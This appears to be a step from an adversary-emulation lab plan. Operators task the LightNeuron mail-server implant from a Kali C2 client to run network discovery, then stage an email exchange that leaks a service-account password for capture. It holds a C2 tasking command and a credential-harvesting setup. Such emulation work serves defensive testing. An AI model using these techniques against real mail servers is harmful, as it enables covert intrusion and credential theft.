 ### :biohazard: Procedures

* From the Kali C2 lower terminal window, task LightNeuron to perform system
network configuration discovery:

```bash
./evalsC2client.py --set-task info@nk.local '5 | ipconfig /all'
```
* :heavy_exclamation_mark: If no response is received after 5 minutes, check
the postfix logs on the Kali server to make sure the email was intercepted and
processed correctly by LightNeuron.

  ```bash
  grep postfix /var/log/syslog
  ```
  * If there is a `reject` entry, that means the email, destined for a
  nonexistent user, was processed by the Exchange server, meaning that
  LightNeuron was either not successfully installed or is not working properly.

* :arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`. 

* Go to your Edge browser window with the OWA page. Your windows should still be up from Step 6. 

* Create a new email:
 * The email recipient should be the user `egle@nk.local`
 * The email subject should be `SAP Integration Issue`
 * The following text should be pasted in as the email body:
   ```
   Hi Egle,
   After our meeting earlier I spoke with Tenko about the SAP integration issue that was preventing the users from logging in. I did a little digging and noticed there is an authentication error on the SAP server.

   When you get a few minutes could you check to make sure the service account is still active and the credentials have not expired? The account name is SVC_SAP2.
   ```

* Send the email

:arrow_right: Switch to your RDP window to `Azuolas` (`10.100.40.103`) as `Egle`. 

* Go to your Edge browser window. You should still be logged into OWA from Step 2.

* You should see the email from `Zilvinas@nk.local`. Try reloading the page if needed.

* Reply to the email from Zilvinas.
 * The following text should be pasted in as the email reply body:
   ```
   Zilvinas,

   I just checked on the service account. It appears that the account was still active, but the password had expired. I've adjusted the settings for the account, so the password should not expire again.

   The new password is: dfsbH%T5RWf3bwq3aeGR$3%
   
   Let me know if this fixes the authentication issue.
   ```
